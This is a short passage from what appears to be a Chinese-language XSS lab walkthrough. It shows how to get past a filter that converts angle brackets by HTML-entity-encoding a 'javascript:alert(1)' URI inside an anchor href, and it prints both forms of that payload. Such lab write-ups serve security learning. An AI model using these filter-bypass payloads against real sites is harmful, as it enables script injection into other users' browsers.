 并且左右标签括号被转换。

可以考虑——

unicode编码a标签里的href：

unicode编码在前端会进行解析为正常的字符

href="里面的任何字符串都会被当做协议来执行"

```
javascript:alert(1)

&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```



## level9

![image-20220116131059999](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116131059999.png)
